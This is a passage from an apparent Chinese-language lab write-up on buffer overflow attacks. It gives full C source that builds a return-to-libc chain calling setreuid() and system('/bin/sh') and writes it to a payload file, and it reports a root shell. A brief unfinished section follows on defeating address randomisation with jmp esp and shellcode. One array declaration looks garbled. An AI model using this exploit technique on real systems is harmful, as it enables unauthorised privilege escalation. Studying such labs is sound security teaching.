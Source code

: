```cpp
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int addr[image] = {
  0xb7e5f430 , // system()
  0x0804856f , // pop-ret
  0xbffff688 , // e1="echo E421140XX"
  0xb7f07870 , // setreuid()
  0x0804856e , // pop-pop-ret
  0,
  0,
  0xb7e5f430 , // system()
  0x0804856f , // pop-ret
  0xbffff67d , // e2="/bin/sh"
  0xb7e52fb0 , // exit
  0
}, cnt = 12;

int main(int argc, char **argv)
{
  char buf[300];
  memset(buf, 'A', sizeof(buf));
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  int x = 166, i;

  for (i = 0; i < cnt; ++i)
  	*(long *) &buf[x + 4*i] = addr[i];

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);

}
```

编译运行，成功得到 root shell。

![image](/001/16.png)

## 6. 地址随机化：JMP ESP

如果开启了随机化，我们可以通过将返回地址覆写为 jmp esp，这样程序仍会停留在原先 esp 的位置上。我们紧随其后写入提权 shellcode 即可使实现攻击。

详细原理和例题先咕着 QwQ。
